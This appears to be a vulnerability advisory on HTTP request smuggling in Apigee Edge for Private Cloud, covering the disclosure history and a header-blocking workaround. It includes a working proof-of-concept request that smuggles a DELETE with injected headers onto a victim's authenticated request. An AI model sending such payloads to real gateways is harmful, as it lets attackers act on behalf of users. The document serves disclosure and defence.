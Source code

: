 # Apigee HTTP Request Smuggling
Tested on Edge for Private Cloud v4.19.01

Responsible disclosure have not led to a resolution of the problem within the 90 days.
Despite the confirmation of the vulnerability and a Google VRP bounty it was moved to "Won't fix / Intended behavior" status.
This puts multiple active deployments at risk, this entry serves as a guide on how to mitigate it (i.e. WAF filtering)

## Issue description
Apigee does not properly parse HTTP request length when both `Content-Length` and `Content-Encoding: chunked` are set bu the client.
This allows to send requests larger than the assumed size, resulting in appending the overflow data to the next request in the HTTP proxy.
Through such malformed requests attacker can prepend request to the victim issued one, together with original HTTP headers (authorization).
Successful attacks might allow for taking actions on behalf of authenticated users.

This attack is already well explained [here](https://portswigger.net/web-security/request-smuggling), the only difference is that Apigee vulnerability is triggered for `Content-Encoding: chunked` instead of `Transfer-Encoding: chunked`.

## Remediation

The only workaround is to block all requests with `Content-Encoding: chunked` header.
This is not a part of the original HTTP specification and will unlikely be used by any legitimate client.


## PoC - HTTP Request Smuggling

1. Attacker sends multiple requests in order to poison the API proxy:
```
POST /v1/login HTTP/1.1
Host: apigee.proxy-gateway.com
User-Agent: BurpSuite-intruder
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Encoding: chunked
Content-Length: 108

0

DELETE /v1/resources/SOMETHING_IMPORTANT HTTP/1.1
Injected-Header: attacker-controlled
Dummy-Header: 
```

2. When the legitimate client later sends a HTTP request such as:
```
GET /v1/healthcheck
User-Agent: pingchecker
Authorization: Bearer SoMeAuThToKeNhErE
Accept: application/json

```

3. Result will be the following request issued on victim behalf:
```
DELETE /v1/resources/SOMETHING_IMPORTANT HTTP/1.1
Injected-Header: attacker-controlled
Dummy-Header: GET /v1/healthcheck
User-Agent: pingchecker
Authorization: Bearer SoMeAuThToKeNhErE
Accept: application/json

```

## Limitations

- Poisoning might require an unauthenticated API endpoint which accepts POST method (usually this will be available in authentication)
- HTTP smuggling is limited to method, uri and headers only (not found any way to append request body).

